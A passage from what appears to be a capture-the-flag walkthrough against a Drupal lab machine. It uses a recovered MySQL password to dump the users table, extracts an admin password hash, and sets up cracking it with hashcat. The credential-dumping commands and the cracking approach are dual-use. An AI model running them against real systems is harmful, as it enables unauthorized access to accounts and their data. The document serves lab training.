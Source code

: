 <p align="center">
<img width="163" alt="10-dblogin" src="https://user-images.githubusercontent.com/21021400/143077292-876354fc-b9b8-43a0-8dc9-927b3a4ff784.png">
</p>

We got the mysql credentials:  
user: drupaluser  
password: CQHEy@9M*m23gBVj  

Terminal is non-interactive, better show results with inline commands.  

Show the databases:  
```
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e "show databases;"
```  
<p align="center">
<img width="254" alt="11-db" src="https://user-images.githubusercontent.com/21021400/143077295-59554739-c8e0-47bb-b992-a4270c276950.png">
</p>

Show the tables:  
```
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e "use drupal; show tables;"
```
<p align="center">
<img width="121" alt="12-db" src="https://user-images.githubusercontent.com/21021400/143077298-f284822b-e20a-474b-ab92-eda11e3f2761.png">
</p>

Show all users table:  
```
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e "use drupal; select * from users;"
```
<p align="center">
<img width="502" alt="13-db" src="https://user-images.githubusercontent.com/21021400/143077301-0e5ec62b-11b8-407c-8304-3bc2d3e5db6c.png">
</p>

Show only name and password from users table:  
```
mysql -u drupaluser -p'CQHEy@9M*m23gBVj' -e "use drupal; select name,pass from users;"  
```
<p align="center">
<img width="348" alt="14-db" src="https://user-images.githubusercontent.com/21021400/143077303-007a13bc-bc6f-4586-95d3-0349b53f9bd7.png">
</p>

We got the following credentials:  
user: brucetherealadmin  
password: $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt  

Assuming the user might reuse passwords, we will try to crack it using hashcat.  

Checking the hash type on https://hashcat.net/wiki/doku.php?id=example_hashes  
<p align="center">
<img width="778" alt="15-hashtypes" src="https://user-images.githubusercontent.com/21021400/143077238-82a8e5e8-b04f-4679-96a5-118ffcd5473b.png">
</p>

Hash type is drupal 7, code 7900 for hashcat.  
Copying the hash to a "hash" file and using rockyou password list with hashcat.  
<p align="center">
<img width="226" alt="16-hashcatcommand" src="https://user-images.githubusercontent.com/21021400/143077244-d745d062-e667-4cae-8f45-5fb706117a49.png">
</p>
